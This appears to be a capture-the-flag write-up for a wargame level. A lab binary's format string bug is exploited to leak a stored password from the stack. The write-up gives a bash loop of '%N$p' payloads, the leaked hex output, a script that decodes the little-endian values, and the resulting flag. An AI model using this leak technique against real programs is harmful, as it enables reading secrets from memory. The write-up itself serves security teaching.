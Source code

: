 # Level2 
There are 3 buffers 2 for 2 fgets (asking for username and password), the other one to store the password read in /home/users/level02/.pass.
If the password received with fgets is the same as the one read in the file, it calls system (/bin/bash).
So if the comparaison is not ok, it calls prints with username. This is where we can exploit the code, with a format string and see what is stored in the 3 buffers with this command:

```bash
for((i=0;i<100;i++)); do ./level02 < <(python -c "print('AAAA'  + '%$i"'$'"p\nBBBBBBBB' )") ; done | grep 'does not have access!' | sed -n '/42424242/,/41414141/p'
```

The previous script give us this output:

```diff
AAAA0x4242424242424242 does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA(nil) does not have access!
AAAA0x100000000 does not have access!
AAAA(nil) does not have access!
+ AAAA0x756e505234376848 does not have access!
+ AAAA0x45414a3561733951 does not have access!
+ AAAA0x377a7143574e6758 does not have access!
+ AAAA0x354a35686e475873 does not have access!
+ AAAA0x48336750664b394d does not have access!
AAAA(nil) does not have access!
AAAA0x2438322541414141 does not have access!
```

Because our password is stored with 64 bits in little endian, we can find it by using the following script:

```bash
#!/bin/bash

PASSWORD=""
for uint64_t in "756e505234376848" "45414a3561733951" "377a7143574e6758" "354a35686e475873" "48336750664b394d"
do
	echo -n "$uint64_t" | xxd -r -p | rev
	PASSWORD+=`echo -n "$uint64_t" | xxd -r -p | rev`
done

echo "Password is -> $PASSWORD"
```

The flag is **Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H**
